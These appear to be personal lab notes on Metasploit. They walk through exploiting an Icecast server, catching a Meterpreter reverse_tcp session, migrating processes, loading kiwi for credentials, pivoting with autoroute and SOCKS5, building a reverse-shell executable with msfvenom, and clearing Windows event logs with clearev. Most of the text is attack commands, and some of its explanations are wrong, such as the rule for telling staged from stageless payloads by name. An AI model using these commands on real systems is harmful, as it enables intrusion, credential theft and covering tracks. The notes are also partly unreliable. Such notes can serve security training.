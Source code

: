 
?  help alias

Initialize database

msfdb init

-q  // no banner

db_status   // db status

connect  // quick check

set 

setg  

get 

unset 


spool   // output to a file


save    // save settings





Modules



exploit  //  payload // encoder // NOP // auxiliary


encoder - modify appearance of exploit

NOP - buffer overflow


db_nmap  - feeds directly into db

nmap  - just nmap

good to run after db_nmap:
hosts
services
vulns


example with icecast


use exploit/windows/http/icecast_header


search multi/handler

use <@#> exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

run -j     //  (-j run as job)


`sessions -i <SESSION_NUMBER>`


after connecting, run ps to view processes

we see spoolsv.exe

`migrate <pid>`


doesn't work 


getuid

sysinfo

load kiwi

get privs

upload 

run 

ipconfig

POST 

post/windows/gather/checkvm   // checks if we are in a VM

run post/multi/recon/local_exploit_suggester

run post/windows/manage/enable_rdp  // need admin 

shell    // spawn a normal system shell


CISCO  

run autoroute -h


run autoroute -s 172.18.1.0 -n 255.255.255.0


search server/socks5


auxiliary/server/socks5






msfvennom

`msfvenom -p <PAYLOAD> <OPTIONS>`


`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`


staged - good for ids detection, first stage just connects, second stage downloads code


stageless - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



`<OS>/<arch>/<payload>`

linux/x86/shell_reverse_tcp


camel case = stageless

backslash = staged



`msfvenom --list payloads | grep "<OS>/<arch>/<payload>"`



meterpreter--

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

to upgrade regular shell to meterpreter shell use

post/multi/manage/shell_to_meterpreter


`clearev`	 will clear the Application, System, and Security logs on a Windows system.











